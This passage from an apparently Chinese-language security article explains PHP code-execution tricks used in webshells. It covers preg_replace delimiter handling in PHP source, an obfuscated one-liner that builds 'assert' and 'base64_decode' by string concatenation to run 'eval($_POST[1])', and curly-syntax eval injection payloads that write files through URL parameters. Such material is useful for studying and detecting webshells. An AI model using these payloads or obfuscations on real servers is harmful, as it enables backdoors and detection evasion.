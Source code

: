对应PHP内核源代码\
/php-5.5.31/ext/pcre/php\_pcre.c

```c
PHPAPI pcre_cache_entry* pcre_get_compiled_regex_cache(char *regex, int regex_len TSRMLS_DC)
{
    ...
    //分隔符有可能是有可能是左右反向对称的、或者左右相同对称的
    start_delimiter = delimiter;
    if ((pp = strchr("([{< )]}> )]}>", delimiter)))
        delimiter = pp[5];
    end_delimiter = delimiter;
    ..
```

preg\_replace的pattern参数可以是数组，所以黑客可以将\e放在数组元素中

**Relevant Link:**

> http://php.net/manual/zh/regexp.reference.delimiters.php

### 0x9: 字符串拼接+PHP的动态函数执行

```php
<?php
    $char_as='as';
    $char_e='e';
    $char_assert=$char_as.'s'.$char_e.'r'.'t';
    $char_base64_decode='b'.$char_as.$char_e.(64).'_'.'d'.$char_e.'c'.'o'.'d'.$char_e;
    @$char_assert(@$char_base64_decode('ZXZhbCgkX1BPU1RbMV0p'));
    //ZXZhbCgkX1BPU1RbMV0p: "eval($_POST[1])"
?>
```

要注意的是，用于动态执行的字符串必须要是"assert"，不能是"eval"，因为在PHP中，eval、die不是函数，而assert是函数

### 0x10: Curly Syntax

```php
<?php 
    $k = "{${phpinfo()}}";
?>

<?php 
   $xsser = $_GET["op"]; 
   @eval("\$safedg = $xsser;") 
?>

# http://localhost/shell/index.php?op=${${fputs(fopen("LittleHann.php", "w+"), "LittleHann")}};

# 这个利用方式很巧妙，这种注入的利用场景是假如应用系统的输入点存在注入点，并且这个输入有机会到达代码的某个变量赋值的代码流位置，黑客可以利用这次"变量赋值"进行一次"代码执行"
```

需要特别注意的是，curl语法代码执行是不能带回显的，即下面这种poc是无法成立的

```php
<?php 
   $xsser = $_GET["op"]; 
   @eval("\$safedg = $xsser;") 
?>
# http://localhost/test/test.php?op=${${'eval($_GET[1])'}}&1=phpinfo();
```
